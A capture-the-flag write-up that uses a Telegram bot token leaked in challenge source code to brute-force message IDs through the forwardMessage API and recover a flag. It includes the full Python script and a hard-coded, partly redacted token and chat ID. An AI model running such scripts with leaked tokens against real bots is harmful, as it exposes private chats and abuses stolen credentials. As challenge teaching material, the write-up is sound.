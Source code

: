 Based on the code above, the assumption is that the flag is stored in a chat between the author and the bot. 

The specific message stored by the bot needs to be forwarded using the **forwardMessage** Telegram API call method. With the bot **API key** and **chat ID** available, the API request can be constructed once the missing part, which is the **message ID**, is found

The API request should look like this:

```
https://api.telegram.org/bot<api_key>/forwardMessage?from_chat_id=<chat_id>&message_id=<message_id>&chat_id=<chat_id>
```

Create a python script to brute force the message id.

```python
import requests

api_url = "https://api.telegram.org/bot{}/forwardMessage"

bot_token = "6610257712:<REDACTED>AAFq_tYFDs5ZpWttF94KchKyzULBVQUW0PY"

from_chat_id = "6212716112"
chat_id = "6212716112"
start_message_id = 0

def brute_force_message_id():
    message_id = start_message_id
    while True:
        try:
            response = requests.post(
                api_url.format(bot_token),
                data={
                    "from_chat_id": from_chat_id,
                    "message_id": message_id,
                    "chat_id": chat_id
                }
            )
            if response.status_code == 200:
                response_data = response.json()
                if 'result' in response_data and 'ihack' in str(response_data):
                    print(f"Found 'ihack' in message ID {message_id}")
                    break
            else:
                print(f"Failed to forward message ID {message_id}: {response.status_code}")

        except requests.exceptions.RequestException as e:
            print(f"Error: {e}")
            break

        message_id += 1
        print(message_id)

if __name__ == "__main__":
    brute_force_message_id()
```
